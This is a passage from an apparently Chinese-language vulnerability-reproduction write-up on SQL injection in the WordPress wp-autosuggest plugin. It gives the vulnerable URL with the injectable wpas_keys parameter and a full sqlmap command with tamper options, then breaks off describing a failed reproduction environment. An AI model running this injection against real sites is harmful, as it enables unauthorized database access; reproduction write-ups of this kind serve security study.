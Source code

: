 ![image](../img/c5d07cb0d3c4b1cc7b8f541cc90ff8cc.png)

启用后，退出后台，如下图所示：

![image](../img/70fab2438b96021cf36de6a341820963.png)

然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

```
http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1 
```

访问后，网页内容如下图所示：

![image](../img/814f68d0230d6b7498ac00d7e61b7113.png)

根据exploit-db网站上给出的漏洞详情，我们也知道了wpas_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

```
sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment 
```

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：
